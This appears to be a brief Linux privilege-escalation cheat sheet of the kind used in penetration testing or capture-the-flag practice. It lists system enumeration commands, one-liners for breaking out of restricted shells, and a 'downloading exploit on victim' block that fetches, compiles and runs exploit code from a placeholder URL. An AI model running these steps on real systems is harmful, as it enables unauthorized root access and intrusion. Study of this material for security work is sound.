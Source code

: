 ## Linux PE

### Enumeration

Shows Linux version & kernel
```console
cat /etc/issue
uname -a
```

Search world-writeable files
```console
find / -perm -2 ! -type l -ls 2>/dev/null
```

Prints users' shell
```console
which shell
```

Find hashing algorithm used for shadow
```console
grep -rn ENCRYPT_METHOD /etc/login.defs
```

### Shell

Change shell for specific user
```console
chsh -s /bin/bash <username>
usermod -s /bin/bash <username> (ROOT required)
```

Break out of limited shells
```console
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```

### Exploits

Downloading exploit on victim
```console
wget -O <EXPLOIT.c> <EXPLOIT-URL>
gcc -o <OUTPUT> <EXPLOIT.c>
chmod +x <OUTPUT>
./<OUTPUT>
```

### File Handling

Compress zip files
```console
zip -r <FILE.zip> <FOLDER>
```
